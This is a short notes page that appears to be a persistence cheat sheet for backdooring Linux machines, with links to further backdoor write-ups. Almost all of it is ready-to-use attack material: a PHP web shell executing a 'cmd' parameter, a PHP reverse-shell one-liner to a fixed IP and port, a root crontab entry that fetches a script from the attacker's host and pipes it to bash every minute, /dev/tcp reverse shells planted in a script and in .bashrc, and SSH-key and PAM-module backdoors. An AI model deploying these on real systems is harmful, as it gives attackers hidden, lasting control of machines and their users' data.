 # Linux backdoor
Some technique about creating a backdoor/persistent connection to linux
https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c

## ssh
Generate key `ssh-keygen`, put the public key to the ~/.ssh/authorized_keys in the target machine

## php
putting this in /var/www/html/:
```php
<?php  
    if (isset($_REQUEST['cmd'])) {  
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";  
    }  
?>
```
allow us to send a command to the target by using the `cmd` parameter
`targeturl/shell.php?cmd=COMMAND`

php one liner
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.4.50.18/4182 0>&1'"); ?>
```
## cronjobs
add to crontab:
`* *     * * *   root    curl http://<yourip>:8080/shell | bash`
to request bash script every minute from our machine via http(port 8080)
the script can be a simple reverse shell like this:
```bash
#/bin/bash
bash -i &> /dev/tcp/IP_ADDR/PORT 0>&1
```

## .bashrc
.bashrc is executed everytime a user log in to an interactive session.

Put this into our target .bashrc(usually at home directory)
`bash -i &> /dev/tcp/IP_ADDR/PORT 0>&1` to run a reverse shell everytime they start interactive shell sessions.

## pam_unix.so
pam_unix is the library for authenticating user. So we modify it by giving it a unique string to be compared outside the usual authentication function(`_unix_verify_password()`) to bypass it.
http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html
https://github.com/zephrax/linux-pam-backdoor